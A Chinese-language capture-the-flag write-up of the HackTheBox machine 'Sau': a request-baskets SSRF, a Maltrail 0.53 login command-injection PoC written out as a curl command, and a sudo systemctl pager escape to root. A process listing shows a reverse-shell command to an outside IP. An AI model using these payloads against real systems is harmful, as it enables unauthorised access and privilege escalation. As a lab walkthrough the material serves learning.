 **Waiting for machine retire...**

*Difficulty: Easy*

---

## Summary

xxx

### Attack Path Overview

![attack-path](./AttackPath/HTB-Sau.png){ width='450' }


## 扫描

自用扫描脚本：[工作流](./HTB-Busqueda.md#workflow-scan)

（前1万个）开放端口：
```bash
PORT      STATE    SERVICE REASON      VERSION
22/tcp    open     ssh     syn-ack     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http    no-response
8338/tcp  filtered unknown no-response
```

有点奇怪，浏览器访问了一下80端口确实没响应。于是另外扫了一下全端口，发现还有个 `55555/tcp` 是开放的。


## 攻击路径规划·漏洞分析

有点非常规？不过访问了一下 `10.10.11.224:55555`，会被定向到 `http://10.10.11.224:55555/web`，其实也就是个web应用。22端口本身优先度不高，那么先看看这个端口。


## 55555端口

![HTB-Sau-port55555](./evidence-img/HTB-Sau-port55555.png)

由于是web应用，且不是常规80端口，应该不会有robots.txt之类的信息。大概率是研究他这个应用的功能。

不过先直接看看页脚有没有写关于这个应用的信息：`Powered by request-baskets | Version: 1.2.1`

### PoC (CVE-2023-27163)


### 研究网页功能

点了一下 `Create`，就会创建一个所谓的“basket”，并给了一个URL，访问这个URL后，请求的记录就会出现在这个管理界面。

顺便看burp的抓包可以发现，创建这个basket的POST请求正好是PoC里说的那个可以利用的API。  
而在这个管理界面上方有个设置按钮，点开可以发现里面的参数即对应PoC里payload的几个参数。

![HTB-Sau-port55555-basket](./evidence-img/HTB-Sau-port55555-basket.png)



### 本地80端口暴露




## Initial Access

### 本地8338端口 - PoC (Maltrail命令注入)

谷歌“Maltrail v0.53 exploit”，发现[PoC文章](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/)。很清晰，即登陆界面的username参数有命令注入漏洞。  
PoC：
> curl 'http://hostname:8338/login' \  
>  --data 'username=;\`id > /tmp/bbq\`'

原来最开始nmap扫描结果里被filtered的8338就是这个Maltrail啊。都联系起来了！



## flag: user

进来的shell是puma用户权限，看一眼home目录只有puma，所以这就是有 user flag 的用户。

```bash
puma@sau:/opt/maltrail$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
puma@sau:/opt/maltrail$ ls /home
ls /home
puma
puma@sau:/opt/maltrail$ cat /home/puma/user.txt
cat /home/puma/user.txt
6a04……97b7
```


## Privilege Escalation

### 探索

基础探索一把梭：

- 用户家目录的隐藏文件：无
- SUID：无特别发现
- 无当前用户的凭据，不过姑且看了眼 `sudo -l`：竟然不需要输入密码？

```bash
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

### Shell Escape Sequences - sudo环境下的systemctl提权

可以发现有一条命令sudo执行是不要密码的，先尝试直接运行看看——输出了一堆像是进程命令的记录到屏幕……

在[GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo)上面搜 `systemctl` 也会很容易发现有sudo时的提权方式，但是由于我运行命令后似乎是所有结果都输出到了屏幕，然后直接回到prompt模式，所以我并不能按照它说的执行“!sh”进行提权。

又仔细看看[GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo)里的内容，注意到下面写了句“This invokes the default pager, which is likely to be less, other functions may apply.”。  
于是琢磨这个 `less`，既然less能翻页。那么提权失败是不是因为没有调用出所谓的“default pager”，所以之前运行命令才会一堆结果直接输出到屏幕？而没有调用“default pager”给我使用，可能是因为当前不是交互shell？

于是转为交互式shell之后再次尝试，果然就正常了。提权也按照[GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo)里的内容，十分简单：
```bash
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Sun 2023-07-09 05:26:40 UTC; 2h 13min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 889 (python3)
      Tasks: 93 (limit: 4662)
     Memory: 186.2M
     CGroup: /system.slice/trail.service
             ├─  889 /usr/bin/python3 server.py
             ├─  960 /bin/sh -c logger -p auth.info -t "maltrail[889]" "Failed >
             ├─  964 /bin/sh -c logger -p auth.info -t "maltrail[889]" "Failed >
             ├─  968 bash
             ├─  969 bash -c bash -i >& /dev/tcp/10.10.16.29/9001 0>&1
             ├─  970 bash -i
             ├─  981 /bin/sh -c logger -p auth.info -t "maltrail[889]" "Failed >
             ├─  982 /bin/sh -c logger -p auth.info -t "maltrail[889]" "Failed >
             ├─  984 bash
             ├─  985 bash -i
             ├─  997 python3 -c import pty;pty.spawn("/bin/bash")
             ├─  998 /bin/bash
             ├─ 4311 /usr/bin/systemctl status trail.service
             ├─ 4312 pager
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
```


## flag: root

```bash
# pwd
/opt/maltrail
# cd
# ls
go  root.txt
# cat root.txt
be4f……86de
```

---

## 总结·后记

2023/07/09

最近感觉只扫前一万个端口已经不能满足打HTB的需求啦，以后打靶干脆直接全端口，于是改了改扫描脚本。以及老是引用WP的链接每次有改动都有点麻烦，就将脚本上传到[仓库](https://github.com/TimeLess613/workflow-scan4HTB/blob/main/workflow-scan4HTB.sh)了。

这次靶机一个PoC反复用挺有意思的。

以及sudo -l不用密码还挺意外的，后来又去看了眼sudoers似乎也没相关配置，不是很懂：
![HTB-Sau-postscript-sudoers](./evidence-img/HTB-Sau-postscript-sudoers.png)

*【穿越】后来稍微测试了一下，似乎无论什么命令只要是配置了 `(ALL : ALL) NOPASSWD`，那么就能无密码执行 `sudo -l`。更具体的就没试了。*

### systemctl提权的调查 - [CVE-2023-26604](https://nvd.nist.gov/vuln/detail/CVE-2023-26604)

在kali也尝试了一下GTFOBins里的方式提权，不过有什么限制导致无法输入感叹号。

于是调查systemctl与less的关系，以及为什么less界面无法输入感叹号等。  
根据下面的bug提交得知，`systemctl status <service>` 的结果显示本应要pipe给 `less` 进行分页展示的。  
> [Bug#836580: systemd: systemctl status pipes through less with escape sequences not applied](https://alioth-lists.debian.net/pipermail/pkg-systemd-maintainers/2016-September/031246.html)

而在less分页中，感叹号“!”是一个特殊命令，其后面的命令会被当做shell命令执行（和vi类似啊），所以有一定的防护措施。最终搜到了[这个](https://github.com/advisories/GHSA-8989-8fhv-vq42)。其中有提到systemd版本247之前都有漏洞，事后确认了一下靶机的systemd版本是245。

---

以及突然想起来在less的分页界面好像可以按“v”进入类似vi的编辑界面。而在vi编辑器可以用冒号输入命令，并且由于感叹号后的命令解析为shell命令，即用 `:!sh` 可以逃逸vi。这台靶机是否也可以？然而试了一下在less的分页界面按“v”进入编辑模式看看能否提权——不过当我按下“v”，会显示“Cannot edit standard input  (press RETURN)”……  